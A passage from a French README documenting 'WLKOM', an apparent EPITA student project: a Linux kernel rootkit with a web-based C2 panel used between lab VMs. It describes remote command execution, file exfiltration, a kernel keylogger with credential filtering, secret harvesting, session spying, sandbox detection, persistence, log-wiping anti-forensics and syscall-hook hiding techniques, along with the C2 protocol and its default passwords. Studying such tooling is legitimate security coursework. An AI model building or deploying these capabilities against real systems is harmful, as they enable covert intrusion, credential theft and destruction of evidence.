| **Session** | Nombre d'événements, uptime |
| **System Information** | Hostname, OS, Kernel, Architecture, CPU, Cores, IP, MAC, Gateway, RAM, Disk, Uptime |
| **Barres RAM / Disk** | Utilisation en pourcentage avec barre de progression |
| **Quick Actions** | Boutons rapides : Refresh All, Stealth Audit, Dump Keylog, Open Terminal |
| **Recent Activity** | Tableau des 10 derniers événements (heure, type, message) |


---

#### RTR Terminal

Terminal interactif chiffré pour exécuter des commandes sur la victime en temps réel.

**Caractéristiques :**
- Affiche **stdout**, **stderr** (en rouge) et **exit status** pour chaque commande
- **Quick commands** : boutons cliquables pour les commandes fréquentes (`id`, `whoami`, `uname -a`, `ps aux`, `ls -la`, `ifconfig`, `netstat -tlnp`, `free -m`, `df -h`, `uptime`, `cat /etc/shadow`, `ss -tnp`)
- Barre de titre affichant `root@victim — bash — IP`
- Prompt interactif : `root@victim:/# _`

**Commandes spéciales :**

| Commande | Action |
|:---|:---|
| `cd <dossier>` | Change le répertoire courant |
| `upload <chemin>` | Envoie un fichier vers la victime |
| `download <chemin>` | Télécharge un fichier depuis la victime |
| `clear` | Efface l'écran du terminal |
| `help` | Affiche les commandes disponibles |

**Exécution de commandes (id, whoami, uname, ps aux, ls) :**



**Exécution de commandes (cat /etc/shadow, ifconfig, etc.) :**



---

#### File System

Navigateur de fichiers complet de la machine victime avec arborescence et prévisualisation.

**Interface :**
- **Panneau gauche** : arborescence des dossiers (vue arbre dépliable)
- **Panneau droit** : contenu du dossier courant (tableau avec nom, taille, permissions, propriétaire, date)
- **Barre de navigation** : chemin courant, boutons Back / Up / Refresh / Go
- **Prévisualisation** : cliquer sur **View** affiche le contenu d'un fichier texte en bas du panneau
- **Downloaded Files** : liste des fichiers téléchargés (sauvegardés dans `/tmp/wlkom_dl_*` sur l'attaquant)

| Action | Bouton | Description |
|:---|:---:|:---|
| Naviguer | Clic sur dossier | Parcourir l'arborescence |
| Voir un fichier | **View** | Affiche le contenu texte |
| Télécharger fichier | **DL** | Télécharge sur votre machine |
| Télécharger dossier | **.tar.gz** | Archive et télécharge le dossier |
| Envoyer un fichier | **Upload** | Envoie un fichier depuis votre machine vers la victime |
| Tout extraire | **Extract All** | Télécharge tout le dossier courant |
| Supprimer | Poubelle rouge | Supprime le fichier ou dossier (avec confirmation) |



---

### 10.4 - Monitoring

#### Processes

Gestionnaire de processus de la victime (équivalent graphique de `ps aux`).

| Colonne | Description |
|:---|:---|
| **PID** | Identifiant du processus |
| **User** | Propriétaire (root affiché en rouge) |
| **CPU %** | Utilisation CPU avec barre de progression colorée (vert/jaune/rouge) |
| **MEM %** | Utilisation mémoire avec barre de progression colorée |
| **Stat** | État du processus (R, S, D, Z...) |
| **Command** | Commande complète |

- **Tri** : cliquez sur les en-têtes PID, CPU ou MEM pour trier
- **Kill** : bouton rouge pour terminer un processus (`SIGKILL`)
- Résumé en haut : nombre total de processus, processus root, CPU% total, MEM% total



---

#### Network

Panneau d'analyse réseau complet avec **9 onglets** :

| Onglet | Description |
|:---|:---|
| **Connections** | Connexions TCP/UDP actives avec état coloré (ESTABLISHED en vert, TIME_WAIT en jaune, etc.) |
| **Listeners** | Services en écoute — les ports C2 (8080, 9999, 9998) sont surlignés en rouge |
| **Interfaces** | Cartes réseau avec IP, MAC, MTU, type, trafic RX/TX |
| **Routes** | Table de routage avec la passerelle par défaut mise en avant |
| **ARP Table** | Voisins réseau (IP, MAC, état, détection QEMU/KVM par OUI) |
| **DNS** | Serveurs DNS configurés + outil de lookup DNS intégré |
| **Port Scan** | Scanner de ports intégré (IP + plage de ports, ou "Common Ports") |
| **Capture** | Sniffer de paquets (`tcpdump`) : choix de l'interface, filtre BPF, nombre de paquets |
| **Topology** | Carte réseau visuelle SVG avec les nœuds Gateway / Attacker / Victim et le canal C2 chiffré |

Statistiques en haut : nombre de connexions actives, listeners, interfaces UP, entrées ARP/DNS.

**Onglet Connections — connexions TCP/UDP actives :**



**Onglet Listeners — services en écoute :**



**Onglet Interfaces — cartes réseau :**



**Onglet Routes — table de routage :**



**Onglet ARP Table — voisins réseau :**



**Onglet DNS — serveurs et lookup :**



**Onglet Port Scan — scanner de ports intégré :**



**Onglet Capture — sniffer de paquets (tcpdump) :**



**Onglet Topology — carte réseau visuelle SVG :**



---

### 10.5 - Intelligence

#### Keylogger

Capture des frappes clavier de la victime au niveau noyau.

**Deux sources de capture :**

| Source | Méthode |
|:---|:---|
| Console physique / locale | `register_keyboard_notifier()` — capture au niveau input kernel |
| Sessions SSH / PTY | Hook `__x64_sys_read()` via ftrace — filtre les majors 4 (tty) et 136 (pts) |

**Boutons de contrôle :**

| Bouton | Action |
|:---|:---|
| **Start** | Active le keylogger dans le noyau |
| **Stop** | Désactive le keylogger |
| **Dump** | Récupère le contenu du ring buffer (4096 octets) |
| **Export** | Exporte les captures en fichier |
| **Auto-dump (5s)** | Active le dump automatique toutes les 5 secondes |

**4 onglets :**

| Onglet | Description |
|:---|:---|
| **Live Feed** | Flux en temps réel des frappes avec recherche. Les lignes contenant des mots de passe sont marquées `CREDENTIAL` (rouge), les commandes privilégiées `PRIV_CMD` (jaune) |
| **Raw Buffer** | Dumps bruts du ring buffer noyau avec taille et nombre de lignes |
| **Credentials** | Filtre automatique des lignes contenant `password`, `sudo`, `su`, `ssh`, `token`, `secret`, `login` |
| **Hook Info** | Documentation technique : méthode de collection, buffer circulaire, protocole, référence MITRE T1056.001 |

Statistiques : nombre de captures, taille des données, credentials détectées, commandes privilégiées.

**Onglet Live Feed — flux en temps réel des frappes :**



**Onglet Raw Buffer — dumps bruts du ring buffer noyau :**



**Onglet Hook Info — documentation technique de la capture :**



---

#### Credentials

Extraction de secrets et reconnaissance post-exploitation.

**3 onglets :**

| Onglet | Description |
|:---|:---|
| **System Recon** | Liste de cibles classées par sévérité (critical, high, medium, low) : `/etc/shadow`, clés SSH, fichiers SUID, historiques bash, sudo config, etc. Bouton **Fetch** pour récupérer chaque fichier. Filtre par catégorie : passwords, keys, privesc, recon, persist |
| **Deep Harvest** | Extraction automatisée en masse — lance toutes les commandes de récolte en un clic (**Harvest All**). Chaque résultat affiche le nombre de lignes extraites |
| **Loot Summary** | Tableau récapitulatif de tout le butin : source, nom, sévérité, taille, nombre de lignes |

Statistiques : items récoltés, harvest complétés, cibles critiques, vecteurs de privesc.

**Onglet System Recon — cibles classées par sévérité :**



**Onglet Deep Harvest — extraction automatisée en masse :**



**Onglet Loot Summary — récapitulatif du butin :**



---

#### Surveillance

Espionnage de sessions, surveillance de fichiers et logs d'authentification.

**3 onglets :**

| Onglet | Description |
|:---|:---|
| **Session Spy** | Liste les terminaux actifs (PTY) avec utilisateur et commande en cours. Boutons pour espionner chaque session : affiche les processus et l'input capturé en temps réel |
| **File Monitor** | Vérifie les modifications récentes sur les fichiers système sensibles (`/etc/shadow`, `authorized_keys`, `sudoers`, etc.) — détecte l'activité d'un administrateur ou d'un autre attaquant |
| **Auth Logs** | Récupère les logs d'authentification : connexions SSH, usage de sudo, échecs d'authentification. Les échecs sont affichés en rouge, les succès en vert |

**Onglet Session Spy — espionnage de terminaux actifs :**



**Onglet File Monitor — surveillance des fichiers système sensibles :**



**Onglet Auth Logs — logs d'authentification :**



---

#### VM Detection

Détection de virtualisation, conteneurs et outils de sécurité (MITRE T1497).

**Vérifications effectuées :**
- Flag hyperviseur CPUID
- Chaînes DMI/BIOS (QEMU, VMware, VirtualBox, Hyper-V)
- Modules noyau de VM
- OUI de l'adresse MAC (détection QEMU/KVM par `52:54`, Xen par `00:16:3e`)
- Modèles de disques virtuels
- Outils guest installés
- Détection de conteneurs (Docker, LXC)
- Outils de sécurité / monitoring

**Résultat :**
- Cercle vert **"Bare Metal / Clean Environment"** ou jaune **"Virtual Environment Detected"**
- Nombre d'indicateurs détectés vs propres
- Détail de chaque vérification avec sa sortie
- Recommandation OPSEC si VM détectée (honeypot, sandbox, lab d'analyse)



---

### 10.6 - Offensive

#### Port Forward

Redirection de ports TCP et pivoting réseau depuis la victime.

**Création d'un tunnel :**

| Paramètre | Description |
|:---|:---|
| **Type** | TCP Proxy (python3), Pipe (nc single), Pipe (nc loop) |
| **Listen Port** | Port d'écoute sur la victime |
| **Target Host** | Hôte cible (ex: `127.0.0.1`) |
| **Target Port** | Port cible |

**Presets rapides :**

| Preset | Configuration |
|:---|:---|
| SSH | Port 22 → 4444 |
| HTTP | Port 80 → 8081 |
| MySQL | Port 3306 → 3307 |
| RDP | Port 3389 → 3390 |

Tableau des tunnels actifs avec PID, statut et bouton de suppression.



---

### 10.7 - System

#### Stealth Audit

Audit complet de la dissimulation du rootkit avec note de **A** à **F**.

**Catégories de vérification :**

| Catégorie | Vérifie |
|:---|:---|
| **Concealment** | Module caché de lsmod, /proc/modules, /sys/module, fichiers cachés, logs filtrés, connexion cachée, PID caché |
| **Persistence** | Mécanismes de survie au redémarrage |
| **Offensive** | Capacités offensives actives |
| **Crypto & Auth** | Chiffrement et authentification fonctionnels |
| **Ftrace Hooks** | Hooks syscall actifs (getdents64, read, recvmsg) |

- **Run All Checks** : lance tous les tests automatiquement
- Chaque vérification affiche **PASS** (vert) ou **FAIL** (rouge) avec la sortie détaillée
- Barre de progression avec pourcentage de dissimulation
- Note globale : A (≥90%), B (≥75%), C (≥55%), D (≥35%), F (<35%)



---

#### Persistence

Gestion des mécanismes de persistance au redémarrage.

Pour chaque mécanisme :

| Information | Description |
|:---|:---|
| **Statut** | ACTIVE (vert) ou OFF (gris) |
| **Nom** | Nom du mécanisme (ex: modules-load.d, modprobe.d, crontab, etc.) |
| **Risque de détection** | LOW / MEDIUM / HIGH |
| **Description** | Explication du fonctionnement |
| **Détail technique** | Chemin du fichier ou commande utilisée |

- Boutons **Enable** / **Disable** pour activer/désactiver chaque mécanisme
- Bouton **Check All Status** pour vérifier l'état de tous les mécanismes



---

#### Anti-Forensics

Destruction de preuves et nettoyage d'artefacts.

Les actions sont organisées par catégorie et classées par sévérité (critical, high, medium).

| Exemple d'action | Description |
|:---|:---|
| Effacer les logs système | Vide `/var/log/syslog`, `/var/log/auth.log`, etc. |
| Effacer l'historique bash | Supprime `.bash_history` de tous les utilisateurs |
| Nettoyer les fichiers temporaires | Supprime les fichiers dans `/tmp` |
| Effacer les logs du journal | Vide le journal `journalctl` |

- **Execute All** : lance toutes les actions de nettoyage en un clic
- Chaque action affiche la commande exécutée et le résultat



---

#### Modules

Liste des modules internes du rootkit (composants noyau).

- Organisés par catégorie
- Chaque module affiche : statut (ACTIVE/OFF), nom, description, hook/fonction
- Note : tous les modules sont compilés dans le LKM et activés au chargement — ils ne peuvent pas être activés/désactivés individuellement

> `wlkom` n'apparaît PAS dans la commande `lsmod` de la victime (il est caché).



---

#### Activity Log

Journal complet de toutes les actions effectuées pendant la session.

| Fonctionnalité | Description |
|:---|:---|
| **Filtres** | Par type : all, info, cmd, rootkit, warn, error, success |
| **Recherche** | Barre de recherche textuelle |
| **Export JSON** | Exporte tout le journal au format JSON |
| **Clear** | Vide le journal |

Tableau avec colonnes : heure, type (badge coloré), message.



---

#### Self-Destruct

Suppression complète du rootkit et de toutes ses traces sur la victime.

**Processus en 2 étapes :**

1. Cliquez sur **ARM Self-Destruct** — le bouton passe en mode "armé"
2. Cliquez sur **CONFIRM SELF-DESTRUCT** pour exécuter

**Actions effectuées :**
- Déchargement du module noyau
- Suppression de la persistance
- Effacement des logs
- Destruction des fichiers temporaires
- Suppression du binaire du rootkit

> Cette action est **irréversible**. Un bouton **Cancel** permet d'annuler avant la confirmation.



---

### 10.8 - Admin

#### Settings

Administration du serveur C2.

| Section | Description |
|:---|:---|
| **Server Control** | Boutons **Reconnect Rootkit** (force la reconnexion) et **Restart C2 Server** (redémarre le serveur) |
| **Change Platform Password** | Formulaire : mot de passe actuel, nouveau mot de passe, confirmation |
| **Session Info** | Statut de connexion, WebSocket, chiffrement actif, durée de session, token |



---

## 11 - Fonctionnalités du rootkit

### 11.1 - Hooks syscall via ftrace

Le rootkit utilise **ftrace** pour intercepter les appels système. Ftrace est un mécanisme de traçage du noyau Linux qui permet de rediriger l'exécution d'une fonction vers une fonction personnalisée.

**Principe :**

```
Programme userland
       │
       ▼
  Appel système (ex: getdents64)
       │
       ▼
  ┌──────────────────────┐
  │ Ftrace intercepte    │
  │ l'appel et redirige  │──► hk_getdents64() (notre hook)
  │ vers notre fonction  │         │
  └──────────────────────┘         │  filtre les entrées
                                   │  contenant "wlkom"/"zroot"
                                   ▼
                              Résultat filtré
                              retourne au programme utilisateur
```

**Résolution des symboles :** Le rootkit utilise `kprobe` pour trouver l'adresse des fonctions noyau à hooker (`wlkom_ksym()`), car `kallsyms_lookup_name` n'est plus exporté depuis Linux 5.7.

### 11.2 - Dissimulation complète

```
┌─────────────────────────────────────────────────────────────────┐
│                  MÉCANISMES DE DISSIMULATION                    │
├─────────────────────┬───────────────────────────────────────────┤
│ Ce qu'on cache      │ Comment                                   │
├─────────────────────┼───────────────────────────────────────────┤
│ Module (lsmod)      │ list_del() sur THIS_MODULE->list          │
│ Module (/sys)       │ kobject_del() sur mkobj.kobj              │
│ Fichiers (ls)       │ Hook getdents64, filtre les noms          │
│                     │ contenant "wlkom" ou "zroot"              │
│ Logs (dmesg)        │ Hook read, filtre lignes contenant        │
│                     │ "wlkom" ou "zroot"                        │
│ Réseau (ss/netstat) │ Hook recvmsg sur NETLINK_SOCK_DIAG,      │
│                     │ filtre par port C2                        │
│ Réseau (/proc/net)  │ Hook read, filtre hex du port             │
│                     │ (0x270F = 9999) et IP C2                  │
│ Processus (ps)      │ Hook getdents64 sur /proc, filtre         │
│                     │ les PIDs dans hidden_pids[]               │
└─────────────────────┴───────────────────────────────────────────┘
```

### 11.3 - Keylogger

Le keylogger utilise **deux mécanismes complémentaires** :

| Mécanisme | Cible | Méthode |
|:---|:---|:---|
| `keyboard_notifier` | Console physique (TTY) | Callback noyau sur KBD_KEYSYM |
| Hook `sys_read` | Sessions SSH (PTY) | Intercepte les lectures sur les terminaux (major 4 = /dev/ttyN, major 136 = /dev/pts/N) |

Le buffer de capture est un **ring buffer** de 4096 octets. Il est vide à chaque lecture (`KEYLOG_DUMP`).

### 11.4 - Protocole de communication

**Authentification :**

```
Rootkit ──── "AUTH_REQUIRED\n" ────► C2
Rootkit ◄─── "wlkom2024\n" ────────  C2
Rootkit ──── "AUTH_OK\n" ──────────► C2    (ou "AUTH_FAIL\n")
```

**Exécution de commande :**

```
Rootkit ◄─── "ls -la /etc\n" ──────  C2
Rootkit ──── "<sortie commande>" ──► C2
```

**Download (victime vers attaquant) :**

```
Rootkit ◄─── "DOWNLOAD:/etc/passwd\n" ──  C2
Rootkit ──── "FILE:/etc/passwd:1547\n" ─► C2
Rootkit ──── <données par chunks 4K> ───► C2
Rootkit ──── "EOF\n" ──────────────────► C2
```

**Upload (attaquant vers victime) :**

```
Rootkit ◄─── "UPLOAD:/tmp/payload\n" ────  C2
Rootkit ◄─── "4096\n" (taille) ──────────  C2
Rootkit ──── "READY\n" ────────────────► C2
Rootkit ◄─── <données par chunks> ───────  C2
Rootkit ──── "UPLOAD_OK\n" ────────────► C2
```

### 11.5 - Commandes spéciales du rootkit

| Commande | Réponse | Description |
|:---|:---|:---|
| `DOWNLOAD:<chemin>` | `FILE:...` + data + `EOF` | Télécharger un fichier |
| `UPLOAD:<chemin>` | `UPLOAD_OK` | Recevoir un fichier |
| `HIDE_PID:<pid>` | `PID_HIDDEN` | Cacher un processus |
| `UNHIDE_PID:<pid>` | `PID_UNHIDDEN` | Montrer un processus |
| `LIST_HIDDEN_PIDS` | `<liste pids>` | Lister les PIDs cachés |
| `KEYLOG_START` | `KEYLOGGER_ON` | Activer le keylogger |
| `KEYLOG_STOP` | `KEYLOGGER_OFF` | Désactiver le keylogger |
| `KEYLOG_DUMP` | `<buffer>` | Lire et vider le buffer |
| `KEYLOG_STATUS` | `KEYLOGGER:ON/OFF` | État du keylogger |
| *toute autre commande* | *sortie de la commande* | Exécute via `/bin/sh -c` |

---

## 12 - Fonctionnalités du C2

### 12.1 - Architecture

Le C2 est un serveur web écrit en **Python 3** :

| Composant | Rôle | Version |
|:---|:---|:---|
| FastAPI | Framework web asynchrone | 0.138.0 |
| Uvicorn | Serveur ASGI | 0.49.0 |
| WebSocket | Communication temps réel navigateur | 16.0 |
| Cryptography | Dérivation de clé + chiffrement | 38.0.4 |

> Le C2 tient dans **un seul fichier** : `c2.py` (~3500 lignes). Le HTML, CSS et JavaScript sont embarqués directement dans le Python.

### 12.2 - Ports utilisés

| Port | Protocole | Direction | Usage |
|:---|:---|:---|:---|
| **8080** | HTTP + WebSocket | Navigateur → C2 | Interface web |
| **9999** | TCP (chiffré) | Rootkit → C2 | Connexion persistante (listener) |
| **9998** | TCP (chiffré) | C2 → Rootkit | Envoi de commandes (writer) |

### 12.3 - API REST

| Endpoint | Méthode | Auth | Description |
|:---|:---:|:---:|:---|
| `/` | GET | Non | Page web complète du C2 (HTML + CSS + JS embarqués) |
| `/api/login` | POST | Non | Authentification (retourne un token de session) |
| `/api/logout` | POST | Oui | Déconnexion (supprime le token) |
| `/api/status` | GET | Non | État du C2, du rootkit et informations système |
| `/api/exec` | POST | Oui | Exécuter une commande sur la victime |
| `/api/upload` | POST | Oui | Upload fichier vers la victime |
| `/api/downloads` | GET | Non | Lister les fichiers téléchargés depuis la victime |
| `/api/dl/<fichier>` | GET | Non | Télécharger un fichier depuis le C2 |
| `/api/dl/<fichier>` | DELETE | Oui | Supprimer un fichier téléchargé |
| `/api/reconnect-rk` | POST | Oui | Forcer la reconnexion du rootkit |
| `/api/restart-c2` | POST | Oui | Redémarrer le serveur C2 |
| `/api/change-password` | POST | Oui | Changer le mot de passe de la plateforme |
| `/ws` | WebSocket | Non | Flux temps réel (logs, output, événements) |

---

## 13 - Architecture technique

### 13.1 - Structure du code source du rootkit

`wlkom.c` — 1166 lignes de C

```
 Lignes  │ Section
─────────┼──────────────────────────────────────────────
   1-33  │ Includes, MODULE_* macros, paramètres
  34-52  │ Variables globales (socket, thread, PID hiding, keylogger)
  64-73  │ Constantes crypto (ChaCha20-Poly1305)
  74-141 │ Infrastructure ftrace (résolution symboles, install/remove hook)
 143-221 │ Hook getdents64 (cacher fichiers + PIDs)
 228-376 │ Hook read (filtrer lignes + capturer TTY/keylogger)
 378-527 │ Hook recvmsg (cacher connexion de ss/netstat)
 529-592 │ Keylogger (keyboard_notifier + dump)
 594-731 │ Réseau TCP (send/recv chiffré, connexion C2)
 752-803 │ Crypto (SHA-256, dérivation clé ChaCha20)
 805-879 │ Exécution de commandes (call_usermodehelper)
 881-951 │ Download / Upload fichiers
 953-982 │ Persistence (copie module + config boot)
 984-992 │ Dissimulation module (list_del + kobject_del)
 994-1141│ Thread C2 principal (boucle connexion + commandes)
1143-1166│ Init / Exit module
```

### 13.2 - Flux d'exécution complet

```
insmod wlkom.ko pw_hash=... c2_ip=... c2_port=...
  │
  ▼
wlkom_init()
  │
  └──► kthread_run(c2_thread_fn)
         │
         │  Phase d'initialisation (2s après chargement) :
         │
         ├── set_persistence()      Copie zroot.ko + config modprobe
         ├── hide_module()          list_del + kobject_del
         ├── hide_files_init()      Installe hook getdents64
         ├── hide_lines_init()      Installe hook read
         ├── crypto_derive_key()    Dérive clé ChaCha20 depuis pw_hash
         ├── net_hide_init()        Prépare hex pour filtrage /proc/net/tcp
         ├── hide_ss_init()         Installe hook recvmsg
         ├── keylogger_start()      Register keyboard_notifier
         ├── auto-hide kthread PID
         │
         │  Boucle principale (infinie) :
         │
         ├── Si pas connecté :
         │     └── connect_to_c2()  TCP vers c2_ip:c2_port
         │     └── Envoie "AUTH_REQUIRED\n"
         │     └── Si échec : attend 5s et réessaie
         │
         ├── Reçoit message (non-bloquant, 200ms timeout) :
         │
         ├── Si pas authentifié :
         │     └── check_password() → "AUTH_OK\n" ou "AUTH_FAIL\n"
         │
         └── Si authentifié :
               ├── "DOWNLOAD:..." → do_download()
               ├── "UPLOAD:..."   → do_upload()
               ├── "HIDE_PID:..." → ajoute à hidden_pids[]
               ├── "KEYLOG_*"     → start/stop/dump/status
               └── <autre>        → exec_cmd()
```

---

## 14 - Sécurité et chiffrement

### 14.1 - ChaCha20-Poly1305 (AEAD)

Toutes les communications rootkit ↔ C2 sont chiffrées avec **ChaCha20-Poly1305** :

| Propriété | Valeur |
|:---|:---|
| Algorithme | ChaCha20 (chiffrement) + Poly1305 (authentification) |
| Type | AEAD (Authenticated Encryption with Associated Data) |
| Taille de clé | 256 bits (32 octets) |
| Taille du nonce | 64 bits (8 octets) — compteur incrémentant |
| Taille du tag | 128 bits (16 octets) |

> **Pourquoi ChaCha20 ?** C'est l'alternative recommandée à AES-GCM. Il est disponible nativement dans le noyau Linux (`crypto/chacha20poly1305.h`) et en Python (`cryptography`).

### 14.2 - Dérivation de la clé

La clé n'est **jamais transmise** sur le réseau. Les deux côtés la dérivent indépendamment :

```
Clé = SHA-256( "wlkom_crypto_" + pw_hash )
```

| Côté | Calcul | Bibliothèque |
|:---|:---|:---|
| Rootkit (noyau) | `compute_sha256("wlkom_crypto_" + pw_hash, crypto_key)` | `<crypto/hash.h>` |
| C2 (Python) | `hashlib.sha256(b"wlkom_crypto_" + pw_hash).digest()` | `hashlib` |

### 14.3 - Format des trames

Chaque message envoyé sur le réseau a ce format :

```
┌───────────────┬──────────────┬─────────────────────────────────┐
│ 4 octets      │ 8 octets     │ N octets + 16 octets            │
│ Taille (BE)   │ Nonce (LE)   │ Texte chiffré   │  Tag Poly1305 │
│               │ (compteur)   │ (ChaCha20)      │  (MAC 128-bit)│
└───────────────┴──────────────┴─────────────────────────────────┘
        │                │                    │
        │                │                    └── Intégrité : si un
        │                │                        seul bit est modifié,
        │                │                        le déchiffrement échoue
        │                │
        │                └── Nonce unique par message (compteur 64-bit)
        │                    Empêche les attaques par rejeu
        │
        └── Taille du payload en big-endian
            Permet de lire le message en entier avant déchiffrement
```

### 14.4 - Double authentification

```
┌──────────────────────────────────────────────────────────┐
│                                                          │
│  NIVEAU 1 : Plateforme web                              │
│  ─────────────────────────                               │
│  Mot de passe : "zerotrust" (modifiable)                 │
│  Protection : 3 tentatives → lock 30s                    │
│  Session : token aléatoire, expire après 1h              │
│  Stockage : sessionStorage (côté navigateur)             │
│                                                          │
│  ┌──────────────────────────────────────────────────┐    │
│  │                                                  │    │
│  │  NIVEAU 2 : Rootkit                             │    │
│  │  ──────────────────                              │    │
│  │  Mot de passe : choisi au chargement du module   │    │
│  │  Vérification : SHA-256 (côté noyau)             │    │
│  │  Transport : canal chiffré ChaCha20-Poly1305     │    │
│  │  Échec : déconnexion + reconnexion dans 5s       │    │
│  │                                                  │    │
│  └──────────────────────────────────────────────────┘    │
│                                                          │
└──────────────────────────────────────────────────────────┘
```

---

## 15 - Dépannage

### Le rootkit ne se connecte pas au C2

| Vérification | Commande | Attendu |
|:---|:---|:---|
| C2 lancé ? | `ss -tlnp \| grep 9999` (sur attaquant) | Ligne avec LISTEN |
| Réseau OK ? | `ping -c 1 <IP_ATTAQUANTE>` (depuis victime) | 0% packet loss |
| Bonne IP ? | Vérifier le `c2_ip` passé à `insmod` | IP de l'attacker |
| Logs C2 | `cat /tmp/c2.log` (sur attaquant) | Messages d'erreur ? |

### L'interface web ne se charge pas

| Vérification | Commande | Attendu |
|:---|:---|:---|
| C2 écoute sur 8080 ? | `ss -tlnp \| grep 8080` (sur attaquant) | Ligne avec LISTEN |
| Bonne URL ? | `http://<IP_ATTAQUANT>:8080` | Page de login |
| Firewall ? | `iptables -L -n` (sur attaquant) | Pas de règle bloquante |

### Le rootkit ne compile pas

| Vérification | Commande | Attendu |
|:---|:---|:---|
| Headers installés ? | `ls /lib/modules/$(uname -r)/build/Makefile` | Le fichier existe |
| GCC installé ? | `gcc --version` | gcc 12.x |
| Make installé ? | `make --version` | GNU Make 4.x |
| Si headers manquants | `apt install linux-headers-$(uname -r)` | Installation OK |

### Le rootkit ne persiste pas après reboot

| Vérification | Commande |
|:---|:---|
| Fichier module copié ? | `ls /lib/modules/$(uname -r)/extra/zroot.ko` |
| Config auto-load ? | `cat /etc/modules-load.d/zroot.conf` |
| Config paramètres ? | `cat /etc/modprobe.d/zroot.conf` |
| Logs de boot | `journalctl -b \| grep -i "zroot\|module"` |

> **Note** : ces fichiers sont normalement cachés par le rootkit. Vérifiez-les **avant** le premier chargement ou depuis un live USB.

### Désinstallation manuelle du rootkit

Si le rootkit est chargé, il bloque `rmmod`. Pour le désinstaller :

**Méthode 1** — Via le panneau Deploy de l'interface web (bouton "Uninstall")

**Méthode 2** — Manuellement :

1. Redémarrez la VM en éditant GRUB : ajoutez `module_blacklist=zroot` à la ligne de boot
2. Une fois démarrée sans le rootkit :
   ```bash
   rm -f /lib/modules/$(uname -r)/extra/zroot.ko
   rm -f /etc/modules-load.d/zroot.conf
   rm -f /etc/modprobe.d/zroot.conf
   depmod -a
   ```
3. Redémarrez normalement

---

## 16 - Structure du projet

```
wlkom/
│
├── AUTHORS                          Login EPITA de l'auteur
├── README.md                        Ce fichier (documentation complète)
├── TODO                             Fonctionnalités faites + futures
│
├── screenshots/                     Captures d'écran de l'interface et des VMs
│
├── rootkit/
│   ├── wlkom.c                      Code source du rootkit (1166 lignes C)
│   ├── Makefile                     Compilation du module noyau
│   ├── ssh_victim.sh                Raccourci SSH vers la victime
│   └── ssh_attacker.sh              Raccourci SSH vers l'attaquant
│
└── attacking_program/
    └── c2.py                        Serveur C2 complet (~3500 lignes Python)
                                     HTML + CSS + JS embarqués
```

### Dépendances complètes

**VM victim** (compilation + exécution du rootkit) :

| Paquet | Version | Installation |
|:---|:---|:---|
| build-essential | 12.9 | `apt install build-essential` |
| linux-headers | 6.1.0-49 | `apt install linux-headers-$(uname -r)` |
| gcc | 12.2.0 | (inclus dans build-essential) |
| make | 4.3 | (inclus dans build-essential) |

**VM attacker** (serveur C2) :

| Paquet | Version | Installation |
|:---|:---|:---|
| python3 | 3.11.2 | `apt install python3 python3-venv` |
| fastapi | 0.138.0 | `pip install fastapi` |
| uvicorn | 0.49.0 | `pip install uvicorn[standard]` |
| websockets | 16.0 | `pip install websockets` |
| cryptography | 38.0.4 | `pip install cryptography` |

---

<p align="center">
  <b>WLKOM</b> — Wild Linux Kernel Object Module<br>
  Projet EPITA SYS2 — APPING1<br>
  <i>yazid.tarmoul · rayan.kheroua · arsan.abdi</i>
</p>
